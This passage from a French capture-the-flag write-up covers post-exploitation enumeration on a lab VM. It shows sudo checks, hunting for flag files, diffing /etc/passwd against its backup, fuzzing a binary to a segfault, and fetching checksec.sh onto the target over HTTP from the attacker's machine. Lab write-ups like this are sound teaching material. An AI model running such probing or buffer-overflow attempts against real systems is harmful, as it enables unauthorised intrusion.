Dolores@ubuntu:~$ sudo -l
sudo -l
[sudo] password for Dolores: loop

Sorry, user Dolores may not run sudo on ubuntu.
```

Au gré de nos pérégrinations sur le serveur, on finit par trouver un nouveau flag situé dans le répertoire ```/srv/ftp``` qui est en lecture/écriture/exécution pour tous, et la trace d'un ancien compte Unix, ```eugene```, supprimé depuis. Mais quid du deuxième compte Arnold ? Quid de la deuxième machine Windows XP Professional ? Quid des deux autres flags situés dans le binaire ```hackme.o``` ? [Quid nullam malesuada rutrum tortor in convallis ?](https://fr.wikiquote.org/wiki/Kaamelott/Loth)

```console
Dolores@ubuntu:~$ cat /etc/vsftpd.user_list 
mrrobot

Dolores@ubuntu:~$ find / -maxdepth 4 -name "flag*" -print 2>/dev/null
/home/Dolores/flag.pdf
/home/Arnold/flag
/srv/ftp/flag

Dolores@ubuntu:~$ cat /home/Arnold/flag
<--flag: The piano doesn’t murder the player if it doesn’t like the music.-->

Dolores@ubuntu:~$ cat /srv/ftp/flag
OK you find me

Dolores@ubuntu:~$ diff /etc/passwd /etc/passwd-
40a41
> eugene:x:1000:1000:Yuqing Wang,,,:/home/eugene:/bin/bash
```

Après plusieurs heures de remue-méninges, une nouvelle piste est envisagée : ```hackme.o``` semble vulnérable à un [_buffer overflow_](https://beta.hackndo.com/buffer-overflow/). Cependant, à la lecture du résultat fourni par le script [__checksec.sh__](https://github.com/slimm609/checksec.sh), est-ce vraiment la bonne voie à emprunter pour résoudre ce challenge ?

```console
Dolores@ubuntu:~$ python3 -c 'print("A" * 4071)' | ./hackme.o
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Watch, watch me pushing my dagger into your heart. Death is inevitable!--Maeve

Dolores@ubuntu:~$ python3 -c 'print("A" * 4072)' | ./hackme.o
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Segmentation fault (core dumped)

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

Dolores@ubuntu:~$ wget -q http://192.168.56.102:8000/checksec.sh

Dolores@ubuntu:~$ chmod +x checksec.sh

Dolores@ubuntu:~$ ./checksec.sh -f hackme.o
RELRO       STACK CANARY  NX          PIE          RPATH     RUNPATH     Symbols     FORTIFY  Fortified  Fortifiable FILE
Full RELRO  Canary found  NX enabled  PIE enabled  No RPATH  No RUNPATH  69 Symbols  Yes      0          4           hackme.o
```

À suivre... [2020: la VM a depuis été retirée de VulnHub car il s'avère qu'elle est incomplète]